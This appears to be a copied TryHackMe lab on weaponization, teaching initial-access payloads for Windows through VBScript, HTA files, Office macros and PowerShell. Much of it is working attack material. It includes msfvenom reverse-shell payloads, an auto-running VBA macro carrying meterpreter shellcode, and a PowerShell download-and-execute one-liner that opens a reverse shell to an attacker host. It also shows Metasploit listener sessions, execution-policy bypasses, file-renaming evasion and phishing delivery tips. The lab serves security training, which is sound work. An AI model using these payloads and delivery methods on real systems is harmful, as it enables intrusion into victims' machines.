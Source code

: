 ** introduction



In this room, we will be discussing different techniques used for weaponization. 



What is Weaponization

Weaponization is the second stage of the Cyber Kill Chain model. In this stage, the attacker generates and develops their own malicious code using deliverable payloads such as word documents, PDFs, etc. [1]. The weaponization stage aims to use the malicious weapon to exploit the target machine and gain initial access.

Most organizations have Windows OS running, which is going to be a likely target. An organization's environment policy often blocks downloading and executing .exe files to avoid security violations. Therefore, red teamers rely upon building custom payloads sent via various channels such as phishing campaigns, social engineering, browser or software exploitation, USB, or web methods.

The following graph is an example of weaponization, where a crafted custom PDF or Microsoft Office document is used to deliver a malicious payload. The custom payload is configured to connect back to the command and control environment of the red team infrastructure.

For more information about red team toolkits, please visit the following: a [[https://github.com/infosecn1nja/Red-Teaming-Toolkit#Payload%20Development][GitHub repository]] that has it all, including initial access, payload development, delivery methods, and others.

Most organizations block or monitor the execution of .exe files within their controlled environment. For that reason, red teamers rely on executing payloads using other techniques, such as built-in windows scripting technologies. Therefore, this task focuses on various popular and effective scripting techniques, including:

 - The Windows Script Host (WSH)
 - An HTML Application (HTA)
 - Visual Basic Applications (VBA)
 - PowerShell (PSH)

** Deploying the Machine

n order to follow up along with the task content and apply what is given in this room, you need to start the attached machine by using the green Start Machine button in this task, and wait a few minutes for it to boot up. To access the attached machine, you can either use the split in browser view or connect through the RDP.

If you prefer to connect through the Remote Desktop Protocol (RDP), first make sure you are connected to the VPN. Then an RDP client is required to connect to the attached Windows 10 machine. You can connect using the xfreerdp tool, which is available on the TryHackMe AttackBox.

To connect  via xfreerdp use the following command:
Terminal

           
user@machine$ xfreerdp /v:10.10.163.215 /u:thm /p:TryHackM3 +clipboard

The username: thm  and the password: TryHackM3

** Windows Script Host - WSH



Windows Scripting Host (WSH)

Windows scripting host is a built-in Windows administration tool that runs batch files to automate and manage tasks within the operating system.

It is a Windows native engine, cscript.exe (for command-line scripts) and wscript.exe (for UI scripts), which are responsible for executing various Microsoft Visual Basic Scripts (VBScript), including vbs and vbe. For more information about VBScript, please visit here. It is important to note that the VBScript engine on a Windows operating system runs and executes applications with the same level of access and permission as a regular user; therefore, it is useful for the red teamers.

Now let's write a simple VBScript code to create a windows message box that shows the Welcome to THM message. Make sure to save the following code into a file, for example, hello.vbs.

Dim message 
message = "Welcome to THM"
MsgBox message

In the first line, we declared the message variable using Dim. Then we store a string value of Welcome to THM in the message variable. In the next line, we use the MsgBox function to show the content of the variable. For more information about the MsgBox function, please visit here. Then, we use wscript to run and execute the content of hello.vbs. As a result, A Windows message will pop up with the Welcome to THM message.


Now let's use the VBScript to run executable files. The following vbs code is to invoke the Windows calculator, proof that we can execute .exe files using the Windows native engine (WSH).

Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run("C:\Windows\System32\calc.exe " & WScript.ScriptFullName),0,True

We create an object of the WScript library using CreateObject to call the execution payload. Then, we utilize the Run method to execute the payload. For this task, we will run the Windows calculator calc.exe. 

To execute the exe file, we can run it using the wscript as follows, 
Terminal

           
c:\Windows\System32>wscript c:\Users\thm\Desktop\payload.vbs
 

We can also run it via cscript as follows,
Terminal

           
c:\Windows\System32>cscript.exe c:\Users\thm\Desktop\payload.vbs

As a result, the Windows calculator will appear on the Desktop.


Another trick. If the VBS files are blacklisted, then we can rename the file to .txt file and run it using wscript as follows,
Terminal

           
c:\Windows\System32>wscript /e:VBScript c:\Users\thm\Desktop\payload.txt
 

The result will be as exact as executing the vbs files, which run the calc.exe binary.

Answer the questions below
Try to replace the calc.exe binary to execute cmd.exe within the Windows machine.


** An HTML Application - HTA



An HTML Application (HTA)

HTA stands for “HTML Application.” It allows you to create a downloadable file that takes all the information regarding how it is displayed and rendered. HTML Applications, also known as HTAs, which are dynamic HTML pages containing JScript and VBScript. The LOLBINS (Living-of-the-land Binaries) tool mshta is used to execute HTA files. It can be executed by itself or automatically from Internet Explorer. 

In the following example, we will use an ActiveXObject in our payload as proof of concept to execute cmd.exe. Consider the following HTML code.
#+BEGIN_SRC html
<html>
<body>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
#+END_SRC 
Then serve the payload.hta from a web server, this could be done from the attacking machine as follows,
Terminal

           
user@machine$ python3 -m http.server 8090
Serving HTTP on 0.0.0.0 port 8090 (http://0.0.0.0:8090/)

On the victim machine, visit the malicious link using Microsoft Edge, http://10.8.232.37:8090/payload.hta. Note that the 10.8.232.37 is the AttackBox's IP address.

Once we press Run, the payload.hta gets executed, and then it will invoke the cmd.exe. The following figure shows that we have successfully executed the cmd.exe.

HTA Reverse Connection

We can create a reverse shell payload as follows,
Terminal

           
user@machine$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.232.37 LPORT=443 -f hta-psh -o thm.hta
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of hta-psh file: 7692 bytes
Saved as: thm.hta

We use the msfvenom from the Metasploit framework to generate a malicious payload to connect back to the attacking machine. We used the following payload to connect the windows/x64/shell_reverse_tcp to our IP and listening port.

On the attacking machine, we need to listen to the port 443 using nc. Please note this port needs root privileges to open, or you can use different ones.

Once the victim visits the malicious URL and hits run, we get the connection back.
Terminal

           
user@machine$ sudo nc -lvp 443
listening on [any] 443 ...
10.8.232.37: inverse host lookup failed: Unknown host
connect to [10.8.232.37] from (UNKNOWN) [10.10.201.254] 52910
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\thm\AppData\Local\Packages\Microsoft.MicrosoftEdge_8wekyb3d8bbwe\TempState\Downloads>
pState\Downloads>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet 4:

   Connection-specific DNS Suffix  . : eu-west-1.compute.internal
   Link-local IPv6 Address . . . . . : fe80::fce4:699e:b440:7ff3%2
   IPv4 Address. . . . . . . . . . . : 10.10.201.254
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 10.10.0.1

Malicious HTA via Metasploit 

There is another way to generate and serve malicious HTA files using the Metasploit framework. First, run the Metasploit framework using msfconsole -q command. Under the exploit section, there is exploit/windows/misc/hta_server, which requires selecting and setting information such as LHOST, LPORT, SRVHOST, Payload, and finally, executing exploit to run the module.
Terminal

           
msf6 > use exploit/windows/misc/hta_server
msf6 exploit(windows/misc/hta_server) > set LHOST 10.8.232.37
LHOST => 10.8.232.37
msf6 exploit(windows/misc/hta_server) > set LPORT 443
LPORT => 443
msf6 exploit(windows/misc/hta_server) > set SRVHOST 10.8.232.37
SRVHOST => 10.8.232.37
msf6 exploit(windows/misc/hta_server) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(windows/misc/hta_server) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/misc/hta_server) >
[*] Started reverse TCP handler on 10.8.232.37:443
[*] Using URL: http://10.8.232.37:8080/TkWV9zkd.hta
[*] Server started.

On the victim machine, once we visit the malicious HTA file that was provided as a URL by Metasploit, we should receive a reverse connection.
Terminal

           
user@machine$ [*] 10.10.201.254    hta_server - Delivering Payload
[*] Sending stage (175174 bytes) to 10.10.201.254
[*] Meterpreter session 1 opened (10.8.232.37:443 -> 10.10.201.254:61629) at 2021-11-16 06:15:46 -0600
msf6 exploit(windows/misc/hta_server) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : DESKTOP-1AU6NT4
OS              : Windows 10 (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x86/windows
meterpreter > shell
Process 4124 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\app>

** Visual Basic for Application


*** Visual Basic for Application (VBA)

VBA stands for Visual Basic for Applications, a programming language by Microsoft implemented for Microsoft applications such as Microsoft Word, Excel, PowerPoint, etc. VBA programming allows automating tasks of nearly every keyboard and mouse interaction between a user and Microsoft Office applications. 

Macros are Microsoft Office applications that contain embedded code written in a programming language known as Visual Basic for Applications (VBA). It is used to create custom functions to speed up manual tasks by creating automated processes. One of VBA's features is accessing the Windows Application Programming Interface (API) and other low-level functionality. For more information about VBA, visit here. 

In this task, we will discuss the basics of VBA and the ways the adversary uses macros to create malicious Microsoft documents. To follow up along with the content of this task, make sure to deploy the attached Windows machine in Task 2. When it is ready, it will be available through in-browser access.

Now open Microsoft Word 2016 from the Start menu. Once it is opened, we close the product key window since we will use it within the seven-day trial period.


Next, make sure to accept the Microsoft Office license agreement that shows after closing the product key window.

Now create a new blank Microsoft document to create our first macro. The goal is to discuss the basics of the language and show how to run it when a Microsoft Word document gets opened. First, we need to open the Visual Basic Editor by selecting view → macros. The Macros window shows to create our own macro within the document.


In the Macro name section, we choose to name our macro as THM. Note that we need to select from the Macros in list Document1 and finally select create. Next, the Microsoft Visual Basic for Application editor shows where we can write VBA code. Let's try to show a message box with the following message: Welcome to Weaponization Room!. We can do that using the MsgBox function as follows:

#+BEGIN_SRC c++ 
Sub THM()
  MsgBox ("Welcome to Weaponization Room!")
End Sub
#+END_SRC 
Finally, run the macro by F5 or Run → Run Sub/UserForm.

Now in order to execute the VBA code automatically once the document gets opened, we can use built-in functions such as AutoOpen and Document_open. Note that we need to specify the function name that needs to be run once the document opens, which in our case, is the THM function.

Sub Document_Open()
  THM
End Sub

Sub AutoOpen()
  THM
End Sub

Sub THM()
   MsgBox ("Welcome to Weaponization Room!")
End Sub

It is important to note that to make the macro work, we need to save it in Macro-Enabled format such as .doc and docm. Now let's save the file as Word 97-2003 Template where the Macro is enabled by going to File → save Document1 and save as type → Word 97-2003 Document and finally, save.


Let's close the Word document that we saved. If we reopen the document file, Microsoft Word will show a security message indicating that Macros have been disabled and give us the option to enable it. Let's enable it and move forward to check out the result.


Once we allowed the Enable Content, our macro gets executed as shown,


Now edit the word document and create a macro function that executes a calc.exe or any executable file as proof of concept as follows,

Sub PoC()
	Dim payload As String
	payload = "calc.exe"
	CreateObject("Wscript.Shell").Run payload,0
End Sub

To explain the code in detail, with Dim payload As String, we declare payload variable as a string using Dim keyword. With payload = "calc.exe" we are specifying the payload name and finally with CreateObject("Wscript.Shell").Run payload we create a Windows Scripting Host (WSH) object and run the payload. Note that if you want to rename the function name, then you must include the function name in the  AutoOpen() and Document_open() functions too.

Make sure to test your code before saving the document by using the running feature in the editor. Make sure to create AutoOpen() and Document_open() functions before saving the document. Once the code works, now save the file and try to open it again.

It is important to mention that we can combine VBAs with previously covered methods, such as HTAs and WSH. VBAs/macros by themselves do not inherently bypass any detections.
Answer the questions below

Now let's create an in-memory meterpreter payload using the Metasploit framework to receive a reverse shell. First, from the AttackBox, we create our meterpreter payload using msfvenom. We need to specify the Payload, LHOST, and LPORT, which match what is in the Metasploit framework. Note that we specify the payload as VBA to use it as a macro.
Terminal

           
user@AttackBox$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.50.159.15 LPORT=443 -f vba
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 341 bytes
Final size of vba file: 2698 bytes

#+BEGIN_SRC vbs
  #If Vba7 Then
        Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal Dbdmsmc As Long, ByVal Fyhxsh As Long, ByVal Pmldf As LongPtr, Oekq As Long, ByVal Gzll As Long, Tqmiorp As Long) As LongPtr
        Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal Hpmxpz As Long, ByVal Mvn As Long, ByVal Cdyzgx As Long, ByVal Kzwuip As Long) As LongPtr
        Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal Fqx As LongPtr, ByRef Ylhuchpqo As Any, ByVal Zgllxzr As Long) As LongPtr
#Else
        Private Declare Function CreateThread Lib "kernel32" (ByVal Dbdmsmc As Long, ByVal Fyhxsh As Long, ByVal Pmldf As Long, Oekq As Long, ByVal Gzll As Long, Tqmiorp As Long) As Long
        Private Declare Function VirtualAlloc Lib "kernel32" (ByVal Hpmxpz As Long, ByVal Mvn As Long, ByVal Cdyzgx As Long, ByVal Kzwuip As Long) As Long
        Private Declare Function RtlMoveMemory Lib "kernel32" (ByVal Fqx As Long, ByRef Ylhuchpqo As Any, ByVal Zgllxzr As Long) As Long
#EndIf

Sub Auto_Open()
        Dim Ukgqrx As Long, Cknuu As Variant, Onbmtwyk As Long
#If Vba7 Then
        Dim  Dtsh As LongPtr, Ehgvlc As LongPtr
#Else
        Dim  Dtsh As Long, Ehgvlc As Long
#EndIf
        Cknuu = Array(252,232,143,0,0,0,96,49,210,137,229,100,139,82,48,139,82,12,139,82,20,49,255,15,183,74,38,139,114,40,49,192,172,60,97,124,2,44,32,193,207,13,1,199,73,117,239,82,87,139,82,16,139,66,60,1,208,139,64,120,133,192,116,76,1,208,139,88,32,1,211,139,72,24,80,133,201,116,60,49,255, _
73,139,52,139,1,214,49,192,193,207,13,172,1,199,56,224,117,244,3,125,248,59,125,36,117,224,88,139,88,36,1,211,102,139,12,75,139,88,28,1,211,139,4,139,1,208,137,68,36,36,91,91,97,89,90,81,255,224,88,95,90,139,18,233,128,255,255,255,93,104,51,50,0,0,104,119,115,50,95,84, _
104,76,119,38,7,137,232,255,208,184,144,1,0,0,41,196,84,80,104,41,128,107,0,255,213,106,10,104,10,2,3,4,104,2,0,4,210,137,230,80,80,80,80,64,80,64,80,104,234,15,223,224,255,213,151,106,16,86,87,104,153,165,116,97,255,213,133,192,116,10,255,78,8,117,236,232,103,0,0,0, _
106,0,106,4,86,87,104,2,217,200,95,255,213,131,248,0,126,54,139,54,106,64,104,0,16,0,0,86,106,0,104,88,164,83,229,255,213,147,83,106,0,86,83,87,104,2,217,200,95,255,213,131,248,0,125,40,88,104,0,64,0,0,106,0,80,104,11,47,15,48,255,213,87,104,117,110,77,97,255,213, _
94,94,255,12,36,15,133,112,255,255,255,233,155,255,255,255,1,195,41,198,117,193,195,187,240,181,162,86,106,0,83,255,213)

        Dtsh = VirtualAlloc(0, UBound(Cknuu), &H1000, &H40)
        For Onbmtwyk = LBound(Cknuu) To UBound(Cknuu)
                Ukgqrx = Cknuu(Onbmtwyk)
                Ehgvlc = RtlMoveMemory(Dtsh + Onbmtwyk, Ukgqrx, 1)
        Next Onbmtwyk
        Ehgvlc = CreateThread(0, 0, Dtsh, 0, 0, 0)
End Sub
Sub AutoOpen()
        Auto_Open
End Sub
Sub Workbook_Open()
        Auto_Open
End Sub
#+END_SRC 

The value of the LHOST in the above terminal is an example of AttackBox's IP address that we used. In your case, you need to specify the IP address of your AttackBox.

Import to note that one modification needs to be done to make this work.  The output will be working on an MS excel sheet. Therefore, change the Workbook_Open() to Document_Open() to make it suitable for MS word documents.

Now copy the output and save it into the macro editor of the MS word document, as we showed previously.

From the attacking machine, run the Metasploit framework and set the listener as follows:
Terminal

           
user@AttackBox$ msfconsole -q
msf5 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.50.159.15
LHOST => 10.50.159.15
msf5 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf5 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 10.50.159.15:443 

Once the malicious MS word document is opened on the victim machine, we should receive a reverse shell.
Terminal

           
msf5 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 10.50.159.15:443 
[*] Sending stage (176195 bytes) to 10.10.215.43
[*] Meterpreter session 1 opened (10.50.159.15:443 -> 10.10.215.43:50209) at 2021-12-13 10:46:05 +0000
meterpreter >

Now replicate and apply what we discussed to get a reverse shell!

** Powershell

PowerShell is an object-oriented programming language executed from the Dynamic Language Runtime (DLR) in .NET with some exceptions for legacy uses. Check out the TryHackMe room, Hacking with PowerShell for more information about PowerShell.

Red teamers rely on PowerShell in performing various activities, including initial access, system enumerations, and many others. Let's start by creating a straightforward PowerShell script that prints "Welcome to the Weaponization Room!" as follows,

#+BEGIN_SRC shell
Write-Output "Welcome to the Weaponization Room!"
#+END_SRC 

Save the file as thm.ps1. With the Write-Output, we print the message "Welcome to the Weaponization Room!" to the command prompt. Now let's run it and see the result.
CMD

           
C:\Users\thm\Desktop>powershell -File thm.ps1
File C:\Users\thm\Desktop\thm.ps1 cannot be loaded because running scripts is disabled on this system. For more
information, see about_Execution_Policies at http://go.microsoft.com/fwlink/?LinkID=135170.
    + CategoryInfo          : SecurityError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : UnauthorizedAccess

C:\Users\thm\Desktop>

Execution Policy

PowerShell's execution policy is a security option to protect the system from running malicious scripts. By default, Microsoft disables executing PowerShell scripts .ps1 for security purposes. The PowerShell execution policy is set to Restricted, which means it permits individual commands but not run any scripts.

You can determine the current PowerShell setting of yougr Windows as follows,
CMD

           
PS C:\Users\thm> Get-ExecutionPolicy
Restricted

We can also easily change the PowerShell execution policy by running:
CMD

           
PS C:\Users\thm\Desktop> Set-ExecutionPolicy -Scope CurrentUser RemoteSigned

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help topic at
http://go.microsoft.com/fwlink/?LinkID=135170. Do you want to change the execution policy?
[Y] Yes [A] Yes to All [N] No [L] No to All [S] Suspend [?] Help (default is "N"): A

Bypass Execution Policy

Microsoft provides ways to disable this restriction. One of these ways is by giving an argument option to the PowerShell command to change it to your desired setting. For example, we can change it to bypass policy which means nothing is blocked or restricted. This is useful since that lets us run our own PowerShell scripts.

In order to make sure our PowerShell file gets executed, we need to provide the bypass option in the arguments as follows,
CMD

           
C:\Users\thm\Desktop>powershell -ex bypass -File thm.ps1
Welcome to Weaponization Room!

Now, let's try to get a reverse shell using one of the tools written in PowerShell, which is powercat. On your AttackBox, download it from GitHub and run a webserver to deliver the payload.

Terminal

           
			
user@machine$ git clone https://github.com/besimorhino/powercat.git
Cloning into 'powercat'...
remote: Enumerating objects: 239, done.
remote: Counting objects: 100% (4/4), done.
remote: Compressing objects: 100% (4/4), done.
remote: Total 239 (delta 0), reused 2 (delta 0), pack-reused 235
Receiving objects: 100% (239/239), 61.75 KiB | 424.00 KiB/s, done.
Resolving deltas: 100% (72/72), done.

	    

Now, we need to set up a web server on that AttackBox to serve the powercat.ps1 that will be downloaded and executed on the target machine. Next, change the directory to powercat and start listening on a port of your choice. In our case, we will be using port 8080.
Terminal

           
			
user@machine$ cd powercat
user@machine$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...

	    

On the AttackBox, we need to listen on port 1337 using nc to receive the connection back from the victim.
Terminal

           
			
user@machine$ nc -lvp 1337

	    

Now, from the victim machine, we download the payload and execute it using PowerShell payload as follows,
Terminal

           
			
C:\Users\thm\Desktop> powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://ATTACKBOX_IP:8080/powercat.ps1');powercat -c ATTACKBOX_IP -p 1337 -e cmd"

	    

Now that we have executed the command above, the victim machine downloads the powercat.ps1  payload from our web server (on the AttackBox) and then executes it locally on the target using cmd.exe and sends a connection back to the AttackBox that is listening on port 1337. After a couple of seconds, we should receive the connection call back:
Terminal

           
			
user@machine$ nc -lvp 1337  listening on [any] 1337 ...
10.10.12.53: inverse host lookup failed: Unknown host
connect to [10.8.232.37] from (UNKNOWN) [10.10.12.53] 49804
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\thm>

** Command And Control - (C2 Or C&C)



This task introduces the basic concept of Command and Control (C2) frameworks used in Red team operations.




What is Command and Control (C2)?

C2 frameworks are post-exploitation frameworks that allow red teamers to collaborate and control compromised machines. C2 is considered one of the most important tools for red teamers during offensive cyber operations. C2 frameworks provide fast and straightforward approaches to:

    Generate various malicious payloads
    Enumerate the compromised machine/networks
    Perform privilege escalation and pivoting
    Lateral movement 
    And many others


Some popular C2 frameworks that we'll briefly highlight are Cobalt Strike, PowerShell Empire, Metasploit. Most of these frameworks aim to support a convenient environment to share and communicate between red team operations once the initial access is gained to a system.


Cobalt Strike

Cobalt Strike is a commercial framework that focuses on Adversary Simulations and Red Team Operations. It is a combination of remote access tools, post-exploitation capabilities, and a unique reporting system. It provides an agent with advanced techniques to establish covert communications and perform various operations, including key-logging, files upload and download, VPN deployment, privilege escalation techniques, mimikatz, port scanning, and the most advanced lateral movements.

PowerShell Empire

PowerShell Empire is an open-source framework that helps red team operators and pen testers collaborate across multiple servers using keys and shared passwords. It is an exploitation framework based on PowerShell and Python agents. PowerShell Empire focuses on client-side and post-exploitation of Windows and Active Directory environment. If you want to learn more about PowerShell Empire, we suggest trying out this room: Empire.

Metasploit 

Metasploit is a widely used exploitation framework that offers various techniques and tools to perform hacking easily. It is an open-source framework and is considered one of the primary tools for pentesting and red team operations. Metasploit is one of the tools we use in this room to generate payload for our weaponization stage. If you want to learn more about the Metasploit framework, we suggest trying out the following two rooms: Metasploit: Introduction and Metasploit.

Most of the C2 frameworks use the techniques mentioned in this room as preparation for the initial access stage. For more details about the C2 framework, we invite you to check the Intro to C2 room.

** Delivery Techniques

Delivery Techniques

Delivery techniques are one of the important factors for getting initial access. They have to look professional, legitimate, and convincing to the victim in order to follow through with the content.


*** Email Delivery

It is a common method to use in order to send the payload by sending a phishing email with a link or attachment. For more info, visit here. This method attaches a malicious file that could be the type we mentioned earlier. The goal is to convince the victim to visit a malicious website or download and run the malicious file to gain initial access to the victim's network or host.

The red teamers should have their own infrastructure for phishing purposes. Depending on the red team engagement requirement, it requires setting up various options within the email server, including DomainKeys Identified Mail (DKIM), Sender Policy Framework (SPF), and DNS Pointer (PTR) record.

The red teamers could also use third-party email services such as Google Gmail, Outlook, Yahoo, and others with good reputations.

Another interesting method would be to use a compromised email account within a company to send phishing emails within the company or to others. The compromised email could be hacked by phishing or by other techniques such as password spraying attacks.

*** Web Delivery

Another method is hosting malicious payloads on a web server controlled by the red teamers. The web server has to follow the security guidelines such as a clean record and reputation of its domain name and TLS (Transport Layer Security) certificate. For more information, visit here.

This method includes other techniques such as social engineering the victim to visit or download the malicious file. A URL shortener could be helpful when using this method.

In this method, other techniques can be combined and used. The attacker can take advantage of zero-day exploits such as exploiting vulnerable software like Java or browsers to use them in phishing emails or web delivery techniques to gain access to the victim machine.


*** USB Delivery

This method requires the victim to plug in the malicious USB physically. This method could be effective and useful at conferences or events where the adversary can distribute the USB. For more information about USB delivery, visit here.

Often, organizations establish strong policies such as disabling USB usage within their organization environment for security purposes. While other organizations allow it in the target environment.

Common USB attacks used to weaponize USB devices include Rubber Ducky and USBHarpoon, charging USB cable, such as O.MG Cable.

** Practice Arena

We have prepared a Windows 10 machine that runs a user simulation web app to execute your payloads or visit the malicious HTA links automatically. Deploy the attached machine and wait a couple of minutes until it's up and running. Then, visit the user simulator web application at http://10.10.219.78:8080/.

Make sure to visit the user simulator web application from the AttackBox, or you can access it by connecting to the VPN.


The web application allows uploading payloads as VBS, DOC, PS1 files. In addition, if you provide a malicious HTA link, the web application will visit your link.

Note for Doc files: the simulation used in the provided Windows 10 machine will open the malicious Word document and be closed within 90 seconds. In order to get longer prescience, you need to migrate as soon as you receive the connection back. 

In the Metasploit framework, we can inject our current process into another process on the victim machine using migrate. In our case, we need to migrate our current process, which is the MS word document, into another process to make the connection stable even if the MS word document is closed. The easiest way to do this is by using migrate post-module as follow,
Terminal

           
meterpreter > run post/windows/manage/migrate 

[*] Running module against DESKTOP-1AU6NT4
[*] Current server process: svchost.exe (3280)
[*] Spawning notepad.exe process to migrate into
[*] Spoofing PPID 0
[*] Migrating into 4960
[+] Successfully migrated into process 4960

In this task, the goal is to generate a reverse shell payload of your choice and send it through the web application. Once the web application runs your payload, you should receive a connect back. Answer the question below and prove your access by finding the flag once you receive a reverse shell.

For reference, you can use the MSFVenom Cheat Sheet on this website.

